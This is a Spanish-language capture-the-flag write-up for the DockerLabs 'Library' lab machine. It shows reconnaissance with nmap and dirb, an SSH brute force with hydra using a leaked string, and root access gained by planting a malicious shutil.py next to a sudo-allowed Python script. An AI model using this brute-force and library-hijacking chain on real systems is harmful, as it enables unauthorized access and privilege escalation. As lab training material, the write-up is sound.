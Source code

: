 ```yaml
---
title: Library
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-library/library_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - fuzzing web
  - data leaks
  - sudo abuse
  - python library hijacking
  - information gathering
  - web analysis
  - data leak exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/library:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.058 ms
--- 172.17.0.3 ping statistics ---

1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.058/0.058/0.058/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/library:-$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 172.17.0.3
Host: 172.17.0.3 ()     Status: Up
Host: 172.17.0.3 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/library:-$ nmap -sCV -vvv -p22,80 -oN nmap2 172.17.0.3
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9f6fcf7f84dd474514c882354a0b3af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2a
KFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd5b01b6d218aea36f26b23c00e512c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 06:38:70:2B:1F:EA (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/library:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.3], Title[Apache2 Ubuntu Default Page: It works]
```

---
## Web Analysis

La página principal entrega únicamente la plantilla por defecto de Apache Ubuntu.

![](assets/img/dockerlabs-writeup-library/library1_1.png)

Ejecuto fuzzing sobre la raíz y detecto la presencia del archivo `index.php`.

```terminal
/home/kali/Documents/dockerlabs/library:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
+ http://172.17.0.3/index.html (CODE:200|SIZE:10671)
+ http://172.17.0.3/index.php (CODE:200|SIZE:26)
==> DIRECTORY: http://172.17.0.3/javascript/
+ http://172.17.0.3/server-status (CODE:403|SIZE:275)
```

Accedo al recurso y visualizo una cadena de texto.

![](assets/img/dockerlabs-writeup-library/library1_2.png)

---
## Data Leak Exploitation

Utilizo esa cadena como contraseña en un ataque de fuerza bruta.

```terminal
/home/kali/Documents/dockerlabs/library:-$ hydra -L /opt/seclists/Usernames/xato-net-10-million-usernames.txt -p 'JIFGHDS87GYDFIGD' ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

Consigo credenciales validas para acceder por SSH con el usuario `carlos`.

```terminal
/home/kali/Documents/dockerlabs/library:-$ ssh carlos@172.17.0.3
carlos@172.17.0.3's password: JIFGHDS87GYDFIGD

carlos@a63c3f434005:~$ id
uid=1001(carlos) gid=1001(carlos) groups=1001(carlos)
```

---
## Privilege Escalation

```terminal
carlos@a63c3f434005:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
carlos:x:1001:1001::/home/carlos:/bin/bash
```

Reviso los privilegios `sudo` asignados a `carlos` y descubro que puede ejecutar el script `/opt/script.py` como `root` sin necesidad de autenticación.

```terminal
carlos@a63c3f434005:~$ sudo -l
Matching Defaults entries for carlos on a63c3f434005:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User carlos may run the following commands on a63c3f434005:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

El script contiene una función que importa el módulo `shutil` para realizar una copia de archivo. La operación ocurre sin validación externa, lo cual permite abusar de la importación de módulos de Python.

```terminal
carlos@a63c3f434005:~$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

El script contiene una función que importa el módulo `shutil` para realizar una copia de archivo. La operación ocurre sin validación externa, lo cual permite abusar de la importación de módulos de Python.

```terminal
carlos@a63c3f434005:~$ echo -e 'import os\nos.system("/bin/bash")' > /opt/shutil.py
```

Al ejecutar el script con `sudo`, el intérprete carga el módulo malicioso y obtengo acceso como `root`.

```terminal
carlos@a63c3f434005:~$ sudo /usr/bin/python3 /opt/script.py

root@a63c3f434005:/home/carlos# id
uid=0(root) gid=0(root) groups=0(root)
```
